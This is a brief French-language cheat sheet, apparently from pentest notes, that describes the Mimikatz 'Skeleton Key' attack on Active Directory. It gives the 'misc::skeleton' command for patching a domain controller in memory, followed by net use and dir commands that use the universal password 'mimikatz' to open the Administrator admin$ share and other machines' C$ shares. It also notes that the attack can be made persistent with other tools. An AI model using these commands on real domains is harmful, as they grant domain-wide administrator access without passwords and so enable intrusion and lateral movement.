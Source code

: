 # Skeleton Key

[Mimikatz](../../Attacking%20Kerberos/Mimikatz.md)

Installation de la clé squelette

```sh
misc::skeleton
```

## Accéder à la forêt

Les informations d'identification par défaut seront : « `mimikatz` »

```sh
net use c:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz
```

Le partage sera désormais accessible sans avoir besoin du mot de passe Administrateur

```sh
dir \\Desktop-1\c$ /user:Machine1 mimikatz
```

Accéde au répertoire du Desktop-1 sans jamais savoir quels utilisateurs ont accès au DESKTOP-1

> La clé squelette ne persistera pas d'elle-même car elle s'exécute dans la mémoire, elle peut être scriptée ou conservée à l'aide d'autres outils et techniques.